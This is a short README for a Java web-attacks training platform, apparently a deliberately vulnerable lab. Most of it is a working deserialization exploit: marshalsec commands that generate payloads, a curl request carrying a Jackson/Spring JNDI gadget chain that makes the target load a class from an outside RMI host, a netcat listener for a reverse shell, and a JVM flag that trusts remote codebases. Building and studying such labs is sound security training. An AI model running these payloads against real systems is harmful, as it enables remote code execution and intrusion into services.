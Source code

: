 ## Java Web Attacks Training Plattform

#### Introduction

You can use this plattform to develop and experiment with existing java web attacks.

#### JSON Deserialization

Payload Generation via [marshalsec](https://github.com/mbechler/marshalsec/)
```
java -cp marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.Jackson -a -v
java -cp marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.JsonIO -a -v
```

Exploitation Code
```
curl -x "" -H "Content-Type: application/json" -X POST -d '{"id":133,"object":["org.springframework.beans.factory.config.PropertyPathFactoryBean",{"targetBeanName":"rmi://192.168.34.42:1099/EvilObject","propertyPath":"foo","beanFactory": ["org.springframework.jndi.support.SimpleJndiBeanFactory",{"shareableResources":["rmi://192.168.34.42:1099/EvilObject"]}]}]}' http://192.168.34.9:8443/api/jackson
```
Reverse Shell
```
netcat -lkvp 31338
```

The vulnerable endpoint needs the permission to download the evil class file located in /exploit/EvilObject.class

-.-

```
-Dcom.sun.jndi.rmi.object.trustURLCodebase=true
```

#### Deserialization Details

##### Jackson

Jackson needs to enable the [JacksonPolymorphicDeserialization](https://github.com/FasterXML/jackson-docs/wiki/JacksonPolymorphicDeserialization) to be affected against the deserialization vulnerability.